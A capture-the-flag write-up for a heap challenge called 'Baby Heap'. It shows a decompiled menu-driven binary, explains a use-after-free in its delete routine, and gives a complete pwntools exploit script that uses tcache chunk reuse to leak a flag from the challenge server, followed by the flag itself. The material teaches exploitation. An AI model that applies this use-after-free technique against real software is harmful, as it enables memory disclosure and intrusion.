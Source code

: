 ## Baby Heap

```
Author: HyggeHalcyon

let's see how well you understand the heap

nc ctf.tcp1p.com 4267
```
**Attachment**: [dist.zip](release/dist.zip)

We were given a zip file that contain an ELF binary. Here's some information about the binary.

![ELF Information](images/2d6292965c19337962bd50a921d127bca033eafb75f18c6ce0a86ae16ac2317c.png)  


<details close><summary>Decompiled Binary</summary>
    
```c
int setup()
{
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  return setvbuf(stderr, 0LL, 2, 0LL);
}

unsigned __int64 create()
{
  int v1; // [rsp+8h] [rbp-48h]
  int n; // [rsp+Ch] [rbp-44h]
  char s[40]; // [rsp+10h] [rbp-40h] BYREF
  unsigned __int64 v4; // [rsp+38h] [rbp-18h]

  v4 = __readfsqword(0x28u);
  printf("Index: ");
  fgets(s, 32, stdin);
  v1 = atoi(s);
  if ( v1 > 0 && v1 <= 10 )
  {
    if ( *((_QWORD *)&user_chunk + v1 - 1) )
    {
      puts("[!] oops, chunk already occupied");
      return v4 - __readfsqword(0x28u);
    }
    printf("Size: ");
    fgets(s, 32, stdin);
    n = atoi(s);
    if ( n > 0xF && n <= 256 )
    {
      *((_QWORD *)&user_chunk + v1 - 1) = malloc(n);
      printf("Content: ");
      fgets(*((char **)&user_chunk + v1 - 1), n, stdin);
      puts("[*] creation success");
      return v4 - __readfsqword(0x28u);
    }
  }
  puts("[!] sorry can't do that");
  return v4 - __readfsqword(0x28u);
}

unsigned __int64 delete()
{
  int v1; // [rsp+Ch] [rbp-34h]
  char s[40]; // [rsp+10h] [rbp-30h] BYREF
  unsigned __int64 v3; // [rsp+38h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  printf("Index: ");
  fgets(s, 32, stdin);
  v1 = atoi(s);
  if ( v1 > 0 && v1 <= 10 )
  {
    free(*((void **)&user_chunk + v1 - 1));
    puts("[*] deletion success");
  }
  else
  {
    puts("[!] sorry can't do that");
  }
  return v3 - __readfsqword(0x28u);
}

unsigned __int64 view()
{
  int v1; // [rsp+Ch] [rbp-34h]
  char s[40]; // [rsp+10h] [rbp-30h] BYREF
  unsigned __int64 v3; // [rsp+38h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  printf("Index: ");
  fgets(s, 32, stdin);
  v1 = atoi(s);
  if ( v1 > 0 && v1 <= 10 )
  {
    if ( *((_QWORD *)&user_chunk + v1 - 1) )
      printf("[*] Data: %s\n", *((const char **)&user_chunk + v1 - 1));
    else
      puts("[!] chunk is empty");
  }
  else
  {
    puts("[!] sorry can't do that");
  }
  return v3 - __readfsqword(0x28u);
}

int read_flag()
{
  int i; // [rsp+4h] [rbp-Ch]
  FILE *stream; // [rsp+8h] [rbp-8h]

  stream = fopen("flag.txt", "r");
  if ( stream )
  {
    for ( i = 0; i <= 3; ++i )
      flag_chunk = (char *)malloc(0x70uLL);
    flag_chunk = (char *)malloc(0x70uLL);
    fgets(flag_chunk, 112, stream);
    fclose(stream);
    return puts("[*] flag loaded into memory");
  }
  else
  {
    puts("[!] flag.txt not found");
    return puts("[!] if this happened on the remote server, please contact admin.");
  }
}

__int64 menu()
{
  char s[40]; // [rsp+10h] [rbp-30h] BYREF
  unsigned __int64 v2; // [rsp+38h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts("Menu:");
  puts("(1) create [1-10]");
  puts("(2) delete [1-10]");
  puts("(3) view   [1-10]");
  puts("(4) flag");
  puts("(5) exit");
  printf("> ");
  fgets(s, 32, stdin);
  return (unsigned int)atoi(s);
}

// local variable allocation has failed, the output may be wrong!
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setup();
  while ( 1 )
  {
    switch ( (unsigned int)menu() )
    {
      case 1u:
        create();
        break;
      case 2u:
        delete(*(_QWORD *)&argc, argv);
        break;
      case 3u:
        view(*(_QWORD *)&argc, argv);
        break;
      case 4u:
        read_flag();
        break;
      case 5u:
        puts("[*] exiting...");
        exit(0);
      default:
        *(_QWORD *)&argc = "[!] unknown choice";
        puts("[!] unknown choice");
        break;
    }
  }
}
```
    
</details>

The provided binary is menu-based and has four main menus:

- Menu 1 - Create: The program prompts the user to enter an index to store data, the data's size, and the data to be stored. The program then calls malloc() with the user's data size as its argument. The heap chunk pointer will be stored inside the `user_chunk` global variable. Then the user's input is stored inside the heap chunk.

- Menu 2 - Delete: The program asks the user to input the index at which data is stored in the user_chunk variable that they want to delete. The program deletes the data using the `free()` function. However, because the program doesn't nullify the data pointer after calling `free()`, it creates a Use After Free (UAF) vulnerability. This means that the program can continue to reference and potentially modify memory that has been deallocated, leading to unintended behavior or security issues.

```c
int delete(){
... SNIPPED ...
    free(*((void **)&user_chunk + v1 - 1));
    puts("[*] deletion success");
... SNIPPED ...
}
```

- Menu 3 - View: The program prompts the user to input the index at which data is stored in the user_chunk variable that they want to view.

- Menu 4 - Read Flag: In this menu, the program calls `malloc(0x70)` five times in total (The last `malloc()` is used to allocate memory for storing the flag string).

Here, I allocated heap chunks memory five times using menu 1, with a size of 0x70 bytes (the same size as the malloc in the `read_flag()` function). 

![Heap Chunks](images/90a26c3ae19f956b3a756ac301105367223c858558abf0d419d2b1e479064009.png)  


Then, I deleted the five heap chunks from earlier. 
![Heap Bins](images/556d1140b269dfc29d14fbfdecfa1f117d7f97f1b66872f15003bc43dd60b2e1.png)  


After that, I called the flag menu to store the flag in one of the previously allocated and deleted heap chunks. Due to the Use After Free vulnerability, we can exploit it to read the flag at one of the indices using menu 3 - view.

![Flag](images/91542b842f30bf7d02770e6bff6f761e24cc2c725efe5f8902c85f4a87bab9c5.png)  


<details open> <summary>exploit.py</summary>

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
from os import path
import sys

# ==========================[ Information
DIR = path.dirname(path.abspath(__file__))
EXECUTABLE = "/chall"
TARGET = DIR + EXECUTABLE 
HOST, PORT = "ctf.tcp1p.com", 4267
REMOTE, LOCAL = False, False

# ==========================[ Tools
elf = ELF(TARGET)
elfROP = ROP(elf)

# ==========================[ Configuration
context.update(
    arch=["i386", "amd64", "aarch64"][1],
    endian="little",
    os="linux",
    log_level = ['debug', 'info', 'warn'][2],
    terminal = ['tmux', 'split-window', '-h'],
)

# ==========================[ Exploit
def add(idx, sz, data):
    io.sendlineafter(b"> ", b"1")
    io.sendlineafter(b": ", str(idx).encode())
    io.sendlineafter(b": ", str(sz).encode())
    io.sendlineafter(b": ", data)
    print("CREATED")

def delete(idx):
    io.sendlineafter(b"> ", b"2")
    io.sendlineafter(b": ", str(idx).encode())
    print("DELETED")

def view(idx):
    io.sendlineafter(b"> ", b"3")
    io.sendlineafter(b": ", str(idx).encode())
    io.recvuntil(b": ")
    resp = io.recvuntil(b"\nMenu", drop=True)
    return resp

def exploit(io, libc=null):
    if LOCAL==True:
        #raw_input("Fire GDB!")
        if len(sys.argv) > 1 and sys.argv[1] == "d":
            choosen_gdb = [
                "source /home/mydata/tools/gdb/gdb-pwndbg/gdbinit.py",     # 0 - pwndbg
                "source /home/mydata/tools/gdb/gdb-peda/peda.py",          # 1 - peda
                "source /home/mydata/tools/gdb/gdb-gef/.gdbinit-gef.py"    # 2 - gef
                ][0]
            cmd = choosen_gdb + """
            b *read_flag+0x94
            b *read_flag+0x5a
            """
            gdb.attach(io, gdbscript=cmd)

    for i in range(5):
        add(1+i, 0x70, b"DUMMY")

    # Heap Memory Overview after 5 malloc:
    # ... 
    # Other Chunk 
    # ...
    # CHUNK_1
    # CHUNK_2
    # CHUNK_3
    # CHUNK_4
    # CHUNK_5
    # TOP CHUNK

    for i in range(5):
        delete(1+i) 
    # Tcachebins after 5 free:
    # Tcachebins [0x80]: CHUNK_5 -> CHUNK_4 -> CHUNK_3 -> CHUNK_2 -> CHUNK_1

    # Call malloc 4th times (looping: for(int i=0; i<=3; i++))
    # Tcachebins [0x80]: CHUNK_1
    # Call malloc 1 more times (to store the flag)
    # Tcachebins [0x80]: -
    # Flag has the same address as CHUNK_1
    io.sendlineafter(b"> ", b"4")


    # Leak the flag by view the content of CHUNK_1 (idx: 1)
    print(view(1).decode())

    io.interactive()

if __name__ == "__main__":
    io, libc = null, null

    if args.REMOTE:
        REMOTE = True
        io = remote(HOST, PORT)
        # libc = ELF("___")
        
    else:
        LOCAL = True
        io = process(
            [TARGET, ],
            env={
            #     "LD_PRELOAD":DIR+"/___",
            #     "LD_LIBRARY_PATH":DIR+"/___",
            },
        )
        # libc = ELF("___")
    exploit(io, libc)
``` 
</details>

![PWN3D](images/469011d965798403dc6640bc1f4826ec7217153a0a8c4bfa36e2367fb93be2cd.png)  

    
**Flag:** TCP1P{k4mu_m4kan_ap4_1ni_k0q_un1qu3_s3k4li_yh_k4kung_chef_0ma1good_r3cyle???}
